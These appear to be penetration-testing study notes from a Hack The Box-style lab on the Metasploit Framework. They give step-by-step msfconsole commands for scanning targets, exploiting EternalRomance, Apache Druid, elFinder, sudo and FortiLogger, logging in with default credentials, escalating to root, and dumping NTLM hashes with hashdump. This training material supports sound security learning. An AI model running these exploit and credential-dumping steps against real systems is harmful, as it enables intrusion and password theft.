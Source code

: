 # Using Metasploit Framework

## Metasploit Project

a) Metasploit Framework -> Free, open-source, community driven

b) Metasploit PRO -> Paid, Commercial use, enterprise oriented

### Architecture

Modules (/usr/share/metasploit-framework/modules)

Plugins (/usr/share/metasploit-framework/plugins/)

Scripts (/usr/share/metasploit-framework/scripts/)

Tools (/usr/share/metasploit-framework/tools/)



### Intro to msfconsole (free)

Launching -> `msfconsole` or `msfconsole -q` (without banner)

Modules -> prepared scripts to exploits

* Syntax -> \<type>/\<os>/\<service>/\<name>&#x20;
  * exploit/windows/ftp/scriptftp\_list
* Search -> `help search` f.e.: `search eternalromance`
* Specific search -> `search type:exploit platform:windows cve:2021 rank:excellent microsoft`
* `Module selection -> nmap -sV <IP> ->` ![](<.gitbook/assets/image (17).png>)
  * `search ms17_010 -> use 0 -> options -> info`
    * `set RHOSTS <IP>... run`

#### Example of usage

`nmap -sVC 10.129.2.141`

`msfconsole -q`

`search eternalromance`

`options`

`set RHOSTS 10.129.2.141`

`set LHOST 10.10.14.153`

`run`

find flag.txt

### Payloads

refers to a module that aids the exploit in returning a shell to the attacker

* exploit -> finds the vuln service
* payload -> establishes a foothold

#### Example of usage

`nmap -sVC 10.129.152.95`

`msfconsole -q`

`search Apache druid`

`use 0`

`options`

`set LHOST 10.10.14.153`

`set RHOSTS 10.129.152.95`

`run`

find flag.txt



## MSF Sessions



### Sessions & Jobs usage

The target has a specific web application running that we can find by looking into the HTML source code. What is the name of that web application?

`nmap -sVC 10.129.79.219`

elFinder



Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

`msfconsole -q`

`search elfinder`

`use 3`

`set LHOST, RHOSTS`

`run`

`shell`

`whoami` -> www-data



The target system has an old version of Sudo running. Find the relevant exploit and get root access to the target system. Find the flag.txt file and submit the contents of it as the answer.

`shell`

`sudo -V` -> version 1.8.31

msf -> `sessions`

msf -> `search sudo 1.8.31`

`use 0`

`set LHOST, SESSION`

`run`

`cd root`

`cat flag.txt`

{% embed url="https://www.youtube.com/watch?v=we0cYx37lMo" %}

### Meterpreter

* meterpreter payload is a specific type of multi-faceted extensible payload that uses DLL injection to establish connection
* difficult to detect using simple checks, can be configured to be persistent across reboots or system changes...
* resides entirely in the memory of the remote host...leaves no traces on HDD
* "swiss army knife of pentesting"



#### Questions

Given IP: `10.129.203.65`

1. Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

`sudo service postgresql status`

`sudo systemctl start postgresql`

`sudo msfdb init`

`sudo msfdb status`

`sudo msfdb run`

msf -> `db_nmap -sV -p- -T5 -A 10.129.203.65`

<figure><img src=".gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

msf -> `hosts`

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

msf -> `services`

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

5000 -> HTTP -> go to website 10.129.203.65:5000

* it is running FORTILOGGER
* tried credentials admin:admin -> worked

msf -> `search FortiLogger`

msf -> `use 0`

msf -> `set LHOST tun0`

msf -> `set RHOSTS 10.129.203.65`

msf -> `run`

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

`shell`

`whoami`

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

ANSWER: **`nt authority\system`**

2. Retrieve the NTLM password hash for the "htb-student" user. Submit the hash as the answer.

msf -> `exit`

msf -> `run post/windows/gather/hashdump`

<figure><img src=".gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
